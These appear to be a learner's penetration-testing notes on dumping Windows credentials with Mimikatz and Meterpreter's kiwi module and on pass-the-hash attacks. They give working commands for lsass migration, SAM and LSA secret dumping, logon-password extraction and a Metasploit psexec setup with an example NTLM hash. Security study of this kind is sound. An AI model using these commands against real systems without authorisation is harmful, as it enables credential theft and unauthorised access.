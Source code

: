 <r>NOTE:</r> Mimikatz require's elevate privileges in order to run correctly 

Can find the process ID for <o>lsass</o> with:
  + `pgrep lsass`
  + With admin privileges, can `migrate` to that process
  + Will now run `getuid`, if `NT AUTHORITY\SYSTEM`, we now have the highest privileges 

Will now start using <r>kiwi</r>
+ `load kiwi`
+ can see help menu with `?`
+ `creds_all` will dump all credentials 
  + Though later windows versions do not store clear text passwords at all
+ `lsa_dump_sam` will drop all the NTLM hashes for the users on the system
  + can provide the SysKey 
+ `lsa_dump_secrets` can provide some clear text credentials in some cases 

Can upload <r>Mimikatz</r> executable with the following:
+ Will need to upload with a meterpreter session, and should make or use the `Temp` folder
+ `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
+ Will the start a command shell session with `shell`
+ can executive it with `.\mimikatz.exe`
+ Now that mimikatz has started, will check if we have permissions to use it with `privilege::debug`
  + if we get `Privilege '20' OK`, we can run it 
+ Can now dump the hashes with: `lsadump::sam`
  + will provide much more information then kiwi 
+ can dump secrets with `lsadump::secrets`
+ can also potentially see clear text login passwords with `sekurlsa::logonpasswords`

### Pass-The-Hash Attacks ###

What can we do with NTLM hashes apart from cracking them?
+ can perform a pass the hash

#### Pass-the-Hash ####
+ Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately 
+ Can use multiple tools to facilitate a Pass-The-Hash attack:
  + <r>Metasploit PsExec module</r> 
  + <r>Crackmapexec</r> 
+ This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation 
  + This will allow persistence even if there is a patch 

For the <r>Metasploit PsExec module</r> , will also need the lm hash
+ can do so with `hashdump`
  + Example output: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::`
  + This can be parsed as: `USERNAME:SID:LM_HASH:NTLM_HASH:::`
+ Will now `use exploit/windows/smb/psexec`
  + `set LPORT 4422`
  + `set RHOSTS 10.3.31.228`
  + `set SMBUSER Administrator`
  + `set SMBPASS PASSWORD_HASH` Notice that a hash is possible, but can also use clear text password
    + Will need to pass both the LM and NTLM Hash
      + Example: `aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`
+ Can now `run` and get a meterpreter session 
